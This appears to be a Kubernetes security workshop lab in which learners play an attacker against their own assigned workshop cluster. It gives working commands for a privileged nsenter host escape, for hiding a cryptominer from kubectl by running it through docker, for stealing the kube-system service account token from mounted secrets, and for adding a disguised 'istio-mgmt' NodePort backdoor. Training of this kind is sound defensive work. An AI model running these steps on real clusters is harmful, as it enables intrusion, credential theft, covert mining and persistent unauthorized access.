 # Persistence: Scenario 2 Attack

## Backstory

### Name: __DarkRed__

* Highly Skilled
* Sells Exfiltrated Data for $$
* Evades detection and employs persistence
* Uses env-specific tooling
* Creates bespoke payloads
* Expert Kubernetes knowledge

### Motivations

* __Red__ notices that the website is gone and the cryptominers have stopped reporting in.
* __Red__ asks __DarkRed__ for help trying to get back into the Kubernetes cluster and gives __DarkRed__ the IP address.
* __Red__ will split the revenue if __DarkRed__ can get the miners back up and running.

## Initial Foothold

Seeing that the URL included port `31337` and that __Red__ said it was a Kubernetes `cluster`, it was likely to be exposed via a `NodePort` `service`. With this information, she has a feeling that more `services` might still be exposed to the web this way. __DarkRed__ starts with indirect enumeration, such as searching on shodan.io, and follows up with direct port scanning via `nmap`.

To see what she'd see, from the Cloud Shell Terminal, scan the hundred ports around 31337 using a command similar to "nmap -sT -A -p 31300-31399 -T4 -n -v -Pn your-ip-address-goes-here". Be absolutely sure to scan your assigned IP address.

Your Cloud Shell has a little script to help:
```console
./attack-2-helper.sh
```

This scan confirms __DarkRed's__ suspicion that more services were present in this `cluster`. They all look like webservers, so explore them briefly with your browser.

__DarkRed__ notices that two of the services look like the company's main product, but the third is a juicy ops dashboard. Her intuition says that the dashboard is probably not maintained as carefully as the real product, and she focuses her attention there. Using tools such as `dirb`, `sqlmap`, `nikto`, and `burp`, she explores the dashboard, finds a vulnerability in a common web-development library, and exploits it to gain remote code execution on the server. For convenience, __DarkRed__ installs a webshell for further exploration.

Now, let's become __DarkRed__ and leverage this new access:

## Deploying Miners

The webshell can be found at <a href="http://your-ip:31336/webshell/" target="_blank">http://your-ip:31336/webshell/</a>, and uses your workshop credentials as before.

Your Cloud Shell has a little script to help:

```console
./attack-2-helper.sh
```

Run a few commands to make sure it's working and gather some basic information:

```console
id; uname -a; cat /etc/lsb-release /etc/redhat-release; ps -ef; env | grep -i kube
```

Review the information. Check for Kubernetes access, and find the limits of our permissions:

```console
export PATH=/tmp:$PATH
cd /tmp; curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.16.4/bin/linux/amd64/kubectl; chmod 555 kubectl
kubectl get pods
kubectl get pods --all-namespaces
kubectl get nodes
kubectl auth can-i --list
```

Now that we've reviewed the basic limits of our access, let's see if we can take over the host. If we can, that will give us many more options to fulfill our nefarious whims.

Using <a href="https://twitter.com/mauilion/status/1129468485480751104" target="_blank">a neat trick from Twitter</a>, let's attempt to deploy a container that gives us full host access:

```console
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```

Let's unpack this a little bit: The kubectl run gets us a pod with a container, but the --overrides argument makes it special.

First we see `"hostPID": true`, which breaks down the most fundamental isolation of containers, letting us see all processes as if we were on the host.

Next, we use the nsenter command to switch to a different `mount` namespace. Which one? Whichever one init (pid 1) is running in, since that's guaranteed to be the host `mount` namespace! The result is similar to doing a `HostPath` mount and `chroot`-ing into it, but this works at a lower level, breaking down the `mount` namespace isolation completely. The `privileged` security context is necessary to prevent a permissions error accessing `/proc/1/ns/mnt`.

Convince yourself that you're really on the host, using some of our earlier enumeration commands:

```console
id; uname -a; cat /etc/lsb-release /etc/redhat-release; ps -ef; env | grep -i kube
```

It's been said that "if you have to SSH into a server for troubleshooting, you're doing Kubernetes wrong", so it's unlikely that cluster administrators are SSHing into nodes and running commands like `docker ps` directly.  By deploying our bitcoinero container via Docker on the host, it will show up in a `docker ps` listing.  However, Docker is managing the container directly and not the `kubelet`, so the malicious container _won't show up in a `kubectl get pods`_ listing.  Without additional detection capabilities, it's likely that the cluster administrator will never even notice.

First we verify Docker is working as expected, then deploy our cryptominer, and validate it seems to be running.

```console
docker ps
```

```console
docker run -d securekubernetes/bitcoinero -c1 -l10
```

```console
docker container ls
```

## Digging In
Now that __DarkRed__ has fulfilled her end of the agreement and the miners are reporting in again, she decides to explore the cluster. With root access to the host, it's easy to explore any and all of the containers. Inspecting the production web app gives access to a customer database that may be useful later -- she grabs a copy of it for "safekeeping".

It would be nice to leave a backdoor for future access. Let's become __DarkRed__ again and see what we can do:

First, let's steal the kubelet's client certificate, and check to see if it has heightened permissions:

```console
ps -ef | grep kubelet
```

Note the path to the kubelet's kubeconfig file: /var/lib/kubelet/kubeconfig

```console
kubectl --kubeconfig /var/lib/kubelet/kubeconfig auth can-i create pod -n kube-system
```

Looks good! Let's try it:

```console
kubectl --kubeconfig /var/lib/kubelet/kubeconfig run testing --image=busybox --rm -i -t -n kube-system --command echo "success"
```

Oh no! This isn't going to work. Let's try stealing the default kube-system service account token and check those permissions. We'll need to do a little UNIX work to find them, since we're not exactly using the public API.


```console
TOKEN=$(for i in `mount | sed -n '/secret/ s/^tmpfs on \(.*default.*\) type tmpfs.*$/\1\/namespace/p'`; do if [ `cat $i` = 'kube-system' ]; then cat `echo $i | sed 's/.namespace$/\/token/'`; break; fi; done)
echo -e "\n\nYou'll want to copy this for later:\n\nTOKEN=\"$TOKEN\""
```

```console
kubectl --token "$TOKEN" --insecure-skip-tls-verify --server=https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT auth can-i get secrets --all-namespaces
```
Yes, this looks better! We save that token in our PalmPilot for later use, and publish a NodePort that will let us access the cluster remotely in the future:

```console
cat <<EOF | kubectl --token "$TOKEN" --insecure-skip-tls-verify --server=https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT apply -f -
apiVersion: v1
kind: Service
metadata:
  name: istio-mgmt
  namespace: kube-system
spec:
  type: NodePort
  ports:
    - protocol: TCP
      nodePort: 31313
      port: 31313
      targetPort: $KUBERNETES_SERVICE_PORT
---
apiVersion: v1
kind: Endpoints
metadata:
  name: istio-mgmt
  namespace: kube-system
subsets:
  - addresses:
      - ip: `sed -n 's/^  *server: https:\/\///p' /var/lib/kubelet/kubeconfig`
    ports:
      - port: $KUBERNETES_SERVICE_PORT
EOF
```

Press control-d to exit (and delete) the `r00t` pod.

If you like, you may validate that external access is working, using cloud shell:

```console
if [ -z "$TOKEN" ]; then
  echo -e "\n\nPlease paste in the TOKEN=\"...\" line and try again."
else
  EXTERNAL_IP=`gcloud compute instances list --format json | jq '.[0]["networkInterfaces"][0]["accessConfigs"][0]["natIP"]' | sed 's/"//g'`
  kubectl --token "$TOKEN" --insecure-skip-tls-verify --server "https://${EXTERNAL_IP}:31313" get pods --all-namespaces
fi
```

Now we have remote Kubernetes access, and our associate's bitcoinero containers are invisible. All in a day's work.
